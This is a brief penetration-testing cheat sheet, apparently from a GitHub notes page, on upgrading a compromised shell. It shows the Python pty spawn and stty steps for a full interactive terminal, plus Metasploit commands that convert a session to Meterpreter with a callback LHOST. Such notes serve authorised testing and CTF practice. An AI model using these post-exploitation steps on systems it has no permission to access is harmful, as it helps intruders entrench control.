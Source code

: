 # Shell Upgrade
- Python
```
which python
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z

echo $TERM
stty -a
stty raw -echo
fg

reset
stty rows <no_of_rows> columns <no_of_columns>
export SHELL=bash; export TERM=xterm-256color
```

- Meterpreter
```
sessions -u <session_id>
```
```
use post/multi/manage/shell_to_meterpreter
set LHOST <ip>
set SESSION <session_id>
exploit
```
